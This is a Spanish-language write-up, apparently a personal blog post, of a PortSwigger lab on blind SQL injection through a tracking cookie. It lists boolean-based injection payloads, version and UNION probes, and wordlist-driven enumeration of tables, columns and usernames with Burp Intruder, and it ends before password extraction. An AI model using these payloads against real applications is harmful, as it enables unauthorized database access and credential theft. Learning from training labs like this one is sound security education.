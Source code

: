 ```yaml
---
title: "11 Blind SQL injection with conditional responses"
collection: publications
category: portswigger
permalink: /publications/11_Blind SQL injection with conditional responses
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en ciego en la base de datos que recupera la contraseña del usuario administrador en la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with conditional responses'
---
```


![logo]({{site.url}}/images/SQLi/sqli-11/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-11/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a SQLi. La consulta se puede ver algo asi.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

En el caso del ejemplo, la cookie contiene este contenido `TrackingId=ZJhQ1n4d7AtpomKX; session=EFsqVmORVFUeAKHnozfDBoJgsSyivWVL`

![Cookie]({{site.url}}/images/SQLi/sqli-11/cookie.png)

Si la cookie existe y es verdadera mostrara el mensaje `Welcome back!`.

![Welcome]({{site.url}}/images/SQLi/sqli-11/welcome.png)

En caso que el `TrackingId` sea falso no mostrara mensaje

![Welcome]({{site.url}}/images/SQLi/sqli-11/invalido.png)

## Comprobamos que el campo sea vulnerable - SQLi a ciegas

Payload cargado

```javascript
' and 1=1 --
```

La consulta se veria algo asi, donde comprueba el ID es valido y 1=1 es True, la consulta es valida.

```javascript
SELECT trackingId FROM someTable WHERE trackingId = 'ZJhQ1n4d7AtpomKX' and 1=1 -- '
```

![Welcome]({{site.url}}/images/SQLi/sqli-11/Payload Valido.png)

En caso que la consulta no sea valida no mostrara mensaje de `Welcome back!`, cargaremos un Payload False.

```javascript
' and 1=2 --
```
![Welcome]({{site.url}}/images/SQLi/sqli-11/Payload Invalido.png)

## Miramos cuantas columnas tiene

```javascript
' ORDER BY 1--
```

![Order By]({{site.url}}/images/SQLi/sqli-11/order by.png)

## Miramos que el campo sea String

El campo es de tipo `String`

```javascript
' UNION SELECT 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-11/string.png)

## Miramos que BD esta corriendo

En este caso muestra el mensaje `Welcome back!` con la consulta de la version de Postgres.

```sql
' UNION SELECT version()--
```

![bd]({{site.url}}/images/SQLi/sqli-11/bd.png)

## Comprobamos nombre de tablas

Ya que `no` conocemos las tablas que tiene la BD, haremos un ataque para comprobar que tablas existen. Si existe la tabla tendra que mostrar el mensaje `Welcom back!` de lo contrario no mostrara nada. 

```sql
' and (SELECT 'x' FROM <TABLA> LIMIT 1)='x'--
```

Vamos a usar la herramienta intruder para hacer el ataque.

![Intruder]({{site.url}}/images/SQLi/sqli-11/intruder.png)

Ejemplo de nombre de tablas:

```text
products
items
inventory
orders
order_items
sales
transactions
pricing
categories
customers
clients
users
profiles
subscriptions
addresses
```

Filtramos por las que tengan el mensaje de `Welcome back!` y esa tabla deberia de existir

![filtro]({{site.url}}/images/SQLi/sqli-11/filtro.png)

Filtrado

![filtro]({{site.url}}/images/SQLi/sqli-11/filtrado.png)

## Comprobamos nombres de los campos que tiene la tablas

Ya que `no` conocemos las el nombre de las filas que tiene la tablas, haremos un ataque para comprobar que nombres tiene los campos de la tabla. Si coincide algun campo tendra que mostrar el mensaje `Welcom back!` de lo contrario no mostrara nada. 

```list
id
user_id
username
email
phone_number
uuid
password
hashed_password
salt
token
last_login
login_attempts
first_name
last_name
full_name
date_of_birth
gender
address
city
state
country
postal_code
role
role_id
permissions
is_admin
is_active
```

```sql
' AND EXISTS (SELECT 1 FROM information_schema.columns WHERE table_name = 'users' AND column_name = 'PAYLOAD')--
```

![columnas]({{site.url}}/images/SQLi/sqli-11/columnas.png)

Filtramos por el mensaje de `Welcome back!`

![columnas]({{site.url}}/images/SQLi/sqli-11/Filtro Columna.png)

Columnas filtradas que tienen el mensaje de `Welcome back!`

![columnas]({{site.url}}/images/SQLi/sqli-11/columnas filtradas.png)

## Averiguar nombre de usuarios en la BD

Ya que tenemos el nombre de la tabla y sus campos vamos a listar el nombre de los usuarios

```sql
' AND EXISTS (SELECT 1 FROM users WHERE username = 'PAYLOAD')--
```

 Lista de nombre de usuarios mas comunes

 ```
admin
administrator
root
user
guest
test
superuser
default
manager
support
moderator
developer
operator
owner
sales
marketing
finance
hr
accounting
itadmin
 ```

 Realizamos el ataque de intruder

![Intruder 2]({{site.url}}/images/SQLi/sqli-11/Intruder 2.png)

Filtramos los usuarios que tienen el mensaje de `Welcome back!` y esos son los que existen en la tabla.

![Filtado 2]({{site.url}}/images/SQLi/sqli-11/filtrado2.png)
